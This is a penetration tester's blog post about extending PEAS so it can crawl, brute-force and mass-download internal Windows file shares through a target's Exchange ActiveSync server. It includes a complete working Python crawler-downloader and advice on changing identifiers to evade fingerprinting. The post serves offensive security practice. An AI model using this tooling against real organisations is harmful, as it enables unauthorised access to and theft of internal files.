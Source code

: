 ```yaml
---
layout: post
title: "Tuning PEAS for Fun and Profit"
date: 2020-08-22 19:00:00 +0300
author: snovvcrash
categories: /dev
tags: [pentest, exchange, activesync, peas, python]
published: true
---
```


At the recent external pentest engagement I had a feeling that PEAS (Python Exchange ActiveSync client) is missing some handy features. For example, crawling shared folders and auto downloading discovered files would be a nice function to have as well as brute forcing potential shares by a wordlist. To save time I wrote a draft script at the time of the pentest, but then I decided to fork PEAS project and tune the source code.

<!--cut-->

![banner.png](/assets/images/tuning-peas-for-fun-and-profit/banner.png)
{:.center-image}

*"Would you like to be modified?"*
{:.quote}

* TOC
{:toc}

## Prologue

Few pentest experts would argue that if there is an OWA client on the perimeter, then be ready to collect loot. And that is because OWA means MS Exchange, and MS Exchange is not the best spot to demonstrate perfect security. [Time-based username enumeration](https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/) will give you account names and a [password spray](https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials) will likely reveal some weak credentials in the domain.

One of the ways where to go next is a hunt for fileshares with juicy content through [Exchange ActiveSync](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/). If you dare choose this path, then [PEAS](https://github.com/FSecureLABS/peas) could become your loyal companion along the way, but there is quite a few things that could be upgraded in this tool very simply. I will fork PEAS and add some modifications to the code.

## Crawl & Dump the Shares

The first thing I felt the need for was the ability to recursively crawl the share searching for files by a given pattern. Let's say that the only share you were able to guess (or that you had access to) was DC's `SYSVOL`. Then it would be a pain to examine all the GUID style policy paths manually. If we could automate this process and add this `--download` option in order to mirror `SYSVOL` to an attacker's machine, then it would not be a big deal to run `find` through all the content and `xargs grep` for some extra hostnames / account names. That's exactly what [crawl_unc](https://github.com/snovvcrash/peas/blob/master/peas/__main__.py#L298) serves for:

[![peas-crawl-unc.png](/assets/images/tuning-peas-for-fun-and-profit/peas-crawl-unc.png)](/assets/images/tuning-peas-for-fun-and-profit/peas-crawl-unc.png)
{:.center-image}

## Brute Force Share Names

In case you did not find any additional names within `SYSVOL` contents, then you could try to enumerate shares with a brute force attack. The [hostnames.txt](https://github.com/snovvcrash/peas/blob/master/hostnames.txt) wordlist stores some common machine names that will be mutated on-the-fly using predefined patterns and a prefix string (if you provide one). That is what [brute_unc](https://github.com/snovvcrash/peas/blob/master/peas/__main__.py#L351) is responsible for:

[![peas-brute-unc.png](/assets/images/tuning-peas-for-fun-and-profit/peas-brute-unc.png)](/assets/images/tuning-peas-for-fun-and-profit/peas-brute-unc.png)
{:.center-image}

Because I can list the root directory of the share, there is no need to guess child folder names as well — they will appear if the machine have any.

## Fix Encoding

It is also worth noting, that PEAS will likely break if it encounters a non-en-US characters in a pathname. That can be [fixed](https://github.com/snovvcrash/peas/commit/fe5508700246710325b727558b49acd8d954e746) by removing explicitly set UTF-8 encoding.

## Mimic Legitimate Identifiers

As it is stated in [@ptswarm](https://twitter.com/ptswarm)'s [research](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/):

![ptswarm-peas-1.png](/assets/images/tuning-peas-for-fun-and-profit/ptswarm-peas-1.png)
{:.center-image}

![ptswarm-peas-2.png](/assets/images/tuning-peas-for-fun-and-profit/ptswarm-peas-2.png)
{:.center-image}

Because PEAS is just a **P**ython client for **EAS**, it needs to have a user-agent string and some other identifiers that can easily be fingerprinted and added to a blacklist. Anyways, [changing them](https://github.com/snovvcrash/peas/commit/ee288bef77fb69217a2442c9b5440cd830a7846b) is also quite a straightforward task.

## Draft Script

This is the draft script that was written at the time of engagement before forking PEAS:

```python
#!/usr/bin/env python

# Usage: python2 peas-crawl-shares.py -h

import os
import errno
from random import choice
from string import ascii_uppercase, digits
from argparse import ArgumentParser

import peas
from pathlib import Path, PureWindowsPath


def init_peas_client(server, domain_netbios, user, password):
	client = peas.Peas()
	client.disable_certificate_verification()

	client.set_creds({
		'server': server,
		'user': '%s\\%s' % (domain_netbios, user),
		'password': password,
	})

	print('[*] Auth result: %s' % client.check_auth())

	return client


def list_unc(client, uncpath, show_parent=True):
	records = client.get_unc_listing(uncpath)

	if show_parent:
		print('[*] Listing: %s\n' % (uncpath,))

	output = []
	for record in records:
		name = record.get('DisplayName')
		path = record.get('LinkId')
		is_folder = record.get('IsFolder') == '1'
		is_hidden = record.get('IsHidden') == '1'
		size = record.get('ContentLength', '0') + 'B'
		ctype = record.get('ContentType', '-')
		last_mod = record.get('LastModifiedDate', '-')
		created = record.get('CreationDate', '-')
		attrs = ('f' if is_folder else '-') + ('h' if is_hidden else '-')
		output.append("%s %-24s %-24s %-24s %-12s %s" % (attrs, created, last_mod, ctype, size, path))

	print('\n'.join(output))


def crawl_unc(client, uncpath, download=False):
	records = client.get_unc_listing(uncpath)
	for record in records:
		if record['IsFolder'] == '1':
			if record['LinkId'] == uncpath:
				continue
			crawl_unc(client, record['LinkId'], download)
		else:
			if download:
				try:
					data = client.get_unc_file(record['LinkId'])
				except TypeError:
					pass
				else:
					winpath = PureWindowsPath(record['LinkId'])
					posixpath = Path(winpath.as_posix()) # Windows path to POSIX path
					posixpath = Path(*posixpath.parts[1:]) # get rid of leading "/"
					dirpath = posixpath.parent
					dirpath = mkdir_p(dirpath)
					filename = str(dirpath / posixpath.name)
					try:
						with open(filename, 'w') as fd:
							fd.write(data)
					# If path name becomes too long when filename is added
					except IOError as e:
						if e.errno == errno.ENAMETOOLONG:
							dirpath = Path(dirpath.parts[0])
							extname = posixpath.suffix
							# Generate random name for the file and put it in the root share directory
							filename = ''.join(choice(ascii_uppercase + digits) for _ in range(8)) + extname
							filename = str(dirpath / filename)
							with open(filename, 'w') as fd:
								fd.write(data)
						else:
							raise

			list_unc(client, record['LinkId'], show_parent=False)


def mkdir_p(dirpath):
	try:
		dirname = str(dirpath)
		os.makedirs(dirname)
	except OSError as e:
		if e.errno == errno.EEXIST and os.path.isdir(dirname):
			pass
		# If directory path name already too long
		elif e.errno == errno.ENAMETOOLONG:
			dirpath = Path(dirpath.parts[0])
		else:
			raise

	return dirpath


if __name__ == '__main__':
	parser = ArgumentParser()
	parser.add_argument('-s', '--server', required=True, help='server')
	parser.add_argument('-d', '--domain-netbios', required=True, help='domain NetBIOS name')
	parser.add_argument('-u', '--user', required=True, help='username')
	parser.add_argument('-p', '--password', required=True, help='password')
	parser.add_argument('--uncpath', help='UNC path')
	parser.add_argument('--crawl-unc', action='store_true', help='recursively list all files within specified UNC path')
	parser.add_argument('--download', action='store_true', help='recursively list & download files within specified UNC path')

	args = parser.parse_args()

	client = init_peas_client(args.server, args.domain_netbios, args.user, args.password)
	list_unc(client, args.uncpath)

	if args.crawl_unc:
		if args.download:
			print('\n[*] Listing and downloading all files...\n')
		else:
			print('\n[*] Listing all files...\n')

		crawl_unc(client, args.uncpath, download=args.download)
```

## Modified PEAS

* [snovvcrash/peas](https://github.com/snovvcrash/peas)

## Refs

* [FSecureLABS/peas](https://github.com/FSecureLABS/peas)
* [Accessing Internal Fileshares through Exchange ActiveSync](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/)
* [PEAS: Access internal fileshares through Exchange ActiveSync](https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/)
* [Attacking MS Exchange Web Interfaces – PT SWARM](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
